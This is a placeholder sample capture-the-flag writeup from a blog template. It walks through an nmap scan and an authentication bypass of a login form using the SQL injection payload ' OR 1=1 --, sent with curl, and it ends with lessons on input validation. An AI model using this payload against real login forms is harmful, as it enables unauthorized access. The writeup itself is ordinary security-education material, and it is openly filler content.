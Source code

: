 ```yaml
---
title: "Sample CTF Writeup"
date: "2024-01-15"
tags: ["CTF", "Web", "Security"]
---
```


# Sample CTF Writeup

This is a sample CTF writeup to demonstrate the blog functionality. You can replace this with your actual CTF writeups.

## Challenge Overview

The challenge was a web application with a simple login form. The goal was to bypass authentication and access the admin panel.

## Initial Reconnaissance

First, I performed a basic reconnaissance of the target:

```bash
nmap -sC -sV target.com
```

The scan revealed:
- Port 80: HTTP (Apache 2.4.41)
- Port 443: HTTPS (Apache 2.4.41)

## Vulnerability Discovery

After examining the login form, I noticed it was vulnerable to SQL injection:

```sql
' OR 1=1 --
```

## Exploitation

The payload successfully bypassed authentication:

```bash
curl -X POST http://target.com/login \
  -d "username=' OR 1=1 --&password=anything"
```

## Flag Capture

Once authenticated, I accessed the admin panel and found the flag:

```
FLAG{SQL_INJECTION_MASTER}
```

## Lessons Learned

- Always validate and sanitize user input
- Use parameterized queries to prevent SQL injection
- Implement proper authentication mechanisms

## Tools Used

- Nmap for port scanning
- Burp Suite for web application testing
- SQLMap for automated SQL injection testing 